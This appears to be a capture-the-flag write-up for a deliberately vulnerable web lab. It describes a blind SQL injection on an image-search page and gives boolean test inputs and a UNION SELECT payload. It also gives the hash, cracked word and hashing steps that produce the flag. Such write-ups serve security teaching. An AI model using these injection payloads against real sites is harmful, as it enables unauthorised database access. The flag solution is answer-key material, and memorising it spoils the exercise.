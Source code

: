 On: ```/index.php?page=searchimg```

### Flaw
You can see that the query is vulnerable just by trying ```1 or 1=1``` and then ```1 and 1=2```

The first time you get a result and the second time just nothing.
This can have the same outcome than a regular SQLi flaw but is more difficult to exploit.

### Flag
- From the first SQL Injection flaw we know that the table ```list_images``` contains a ```comment``` column
- To display it: 1 UNION SELECT title, comment FROM list_images
- ```If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46```
- ```albatroz```
- Finally sha256 on it to get the flag
